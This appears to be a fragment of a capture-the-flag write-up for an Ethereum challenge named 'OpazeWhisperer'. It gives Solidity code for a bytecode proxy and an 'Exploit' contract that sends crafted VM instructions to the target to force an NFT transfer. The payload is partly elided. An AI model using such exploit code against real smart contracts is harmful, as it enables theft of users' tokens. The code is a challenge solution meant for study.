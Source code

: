 The VM execution sequence:
1. Push operations (0x11) set up stack for the call
2. Store operations (0x33) construct the transferFrom call data
3. Final call operation (0x22) executes the NFT transfer

This precise sequence ensures:
```solidity
contract Proxy {
   constructor() {
       assembly {
           mstore(0, 0x5F5F5F5F335aF400414100000000000000000000000000000000000000000000)
           mstore8(8, 0x06)
           mstore8(9, 0x60)
           return(0, 10)
       }
   }
}
```

2. The main exploit contract that handles the VM interaction:
```solidity
contract Exploit {
   OpazeWhisperer immutable target;
   address immutable PLAYER;
   address proxy;
   
   constructor(OpazeWhisperer _target, address _proxy, address player) {
       target = _target;
       proxy = _proxy;
       PLAYER = player;
   }
   
   function pwn() external payable {
       (bool success,) = address(proxy).call{gas: 100000, value: 0x02D4}("");
       require(success, "Call failed1");
   }

   fallback() external payable {
        bytes memory data = abi.encodeWithSignature(
           "play(string)",
           "answer"
       );

        bytes memory payload = bytes.concat(
           data,
           // ... VM instructions for NFT transfer ...
        );

        (bool success,) = address(target).call{gas: 100000, value: 0x02D4}(payload);
        require(success, "Call failed2");
   }
}
```
